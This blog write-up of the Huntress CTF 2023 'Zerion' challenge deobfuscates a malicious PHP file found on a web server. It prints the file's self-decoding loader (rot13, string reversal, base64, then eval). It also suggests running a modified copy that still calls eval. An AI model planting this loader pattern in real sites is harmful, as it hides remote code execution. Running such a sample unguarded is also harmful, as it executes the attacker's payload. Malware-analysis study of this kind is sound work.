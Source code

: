 ```yaml
---
title: "Zerion"
date: 2023-10-02T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Malware', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/hot_off_the_press) 

### We observed some odd network traffic, and found this file on our web server... can you find the strange domains that our systems are reaching out to?

This one gave us a PHP file that was obfuscated using a few different techniques which we can glean by reading the file in a text editor to try to understand what it is doing:

We can see the operations being performed at the beginning of the code: 
![zerion1](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/zerion1.png?raw=true)
```PHP
 $L6CRgr=array(base64_decode("L3gvaQ=="),base64_decode("eA=="),base64_decode(strrev(str_rot13($L66Rgr[1]))))
```
From this we know that we need to:
1. Use a Rot13 cypher
2. reverse the strings
3. Base64 decode 

There are a few different methods of getting to the answer here, however, I went to [CyberChef](https://cyberchef.org/) and uploaded the file and was able to get the flag like so:

![zerion2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/zerion2.png?raw=true)

Alternatively, you could modify the php script like so:
```PHP
<?php $L66Rgr=explode(base64_decode("Pz4="),file_get_contents(__FILE__)); $L6CRgr=array(base64_decode("L3gvaQ=="),base64_decode("eA=="),base64_decode(strrev(str_rot13($L66Rgr[1]))));echo implode(" ",$L6CRgr);$L7CRgr = "d6d666e70e43a3aeaec1be01341d9f9d";preg_replace($L6CRgr[0],serialize(eval($L6CRgr[2])),$L6CRgr[1]);exit();?>
```
adding the :
```PHP
echo implode(" ",$L6CRgr);
```
and then run the script in the command line, grepping for the flag and retrieve it like so:
```bash
php zerion | grep  flag 
```
Or if you want to get fancy:
```bash
php zerion | egrep -oE 'flag\{[0-9a-f]{32}\}'
```

![zerion2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/zerion3.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/hot_off_the_press) 